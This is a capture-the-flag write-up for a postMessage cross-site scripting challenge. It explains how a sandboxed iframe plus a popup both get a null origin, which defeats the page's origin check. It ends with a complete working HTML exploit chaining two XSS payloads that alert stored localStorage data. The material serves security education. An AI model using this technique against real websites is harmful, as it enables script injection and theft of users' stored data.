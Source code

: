 The main problem is that the [**main page**](https://so-xss.terjanq.me) uses DomPurify to send the `data.body`, so in order to send your own html data to that code you need to **bypass** `e.origin !== window.origin`.

Let's see the solution they propose.

### SOP bypass 1 (.origin === null)

When `//example.org` is embedded into a **sandboxed iframe**, then the page's **origin** will be **`null`**, i.e. **`window.origin === null`**. So just by embedding the iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` we could **force the `null` origin**.

If the page was **embeddable** you could bypass that protection that way (cookies might also need to be set to `SameSite=None`).

### SOP bypass 2

The lesser known fact is that when the **sandbox value `allow-popups` is set** then the **opened popup** will **inherit** all the **sandboxed attributes** unless `allow-popups-to-escape-sandbox` is set.

### Challenge Solution

Therefore, for this challenge, one could **create** an **iframe**, **open a popup** to the page with the vulnerable XSS code handler (`/iframe.php`), as `window.origin === e.origin` because both are `null` it's possible to **send a payload that will exploit the XSS**.

That **payload** will get the **identifier** and send a **XSS** it **back to the top page** (the page that open the popup), **which** will **change location** to the **vulnerable** `/iframe.php`. Because the identifier is known, it doesn't matter that the condition `window.origin === e.origin` is not satisfied (remember, the origin is the **popup** from the iframe which has **origin** **`null`**) because `data.identifier === identifier`. Then, the **XSS will trigger again**, this time in the correct origin.

```html
<body>
  <script>
    f = document.createElement('iframe');
    
    // Needed flags
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    
    // Second communication with /iframe.php (this is the top page relocated)
    // This will execute the alert in the correct origin
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll('\n',' ');
   
   // Initial communication
   // Open /iframe.php in a popup, both iframes and popup will have "null" as origin
   // Then, bypass window.origin === e.origin to steal the identifier and communicate
   // with the top with the second XSS payload
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f);
```